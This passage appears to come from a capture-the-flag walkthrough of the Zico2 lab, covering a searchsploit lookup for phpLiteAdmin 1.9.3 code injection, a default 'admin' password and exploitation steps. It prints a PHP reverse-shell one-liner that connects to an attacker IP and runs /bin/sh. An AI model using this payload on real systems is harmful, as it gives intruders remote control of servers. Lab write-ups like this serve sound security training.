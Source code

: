 Before any bruteforcing attempt, I usually search for already known exploit corresponding to a service version. There are many ways of doing this, like using searchsploit or Google. 
Searchsploit query for *phpLiteAdmin v1.9.3*
```console
root@EdgeOfNight:~# searchsploit phpLiteAdmin 1.9.3
------------------------------------------------------------------ ----------------------------------
 Exploit Title                                                    |  Path
                                                                  | (/usr/share/exploitdb/platforms/)
------------------------------------------------------------------ ----------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                    | php/webapps/24044.txt
------------------------------------------------------------------ ----------------------------------
```    
shows us that there indeed is an exploitable [vulnerability](https://www.exploit-db.com/exploits/24044/) which allows for PHP remote code execution after authentication. As always I tend to overcomplicate things and launch a hydra bruteforce attack, only then realizing the password was set to default this whole time. Now that we have the password *admin* let's get our reverse shell via php! 


# Exploitation

If you have read the searchsploit file, getting the shell will be easy. There are of course many ways to approach this vulnerability, but I chose the following:

1. Make a txt file inside /var/www/html with `<?php $sock=fsockopen("192.168.1.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>` (this is our reverse shell - taken from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))
2. Start an apache web server using `/etc/init.d/apache2 start`

To proceed with our exploitation, do as the exploitdb file says. Create a database with a .php extension (in my case shell.php):  

<img src="/img/blog/zico2/Zico6.png">
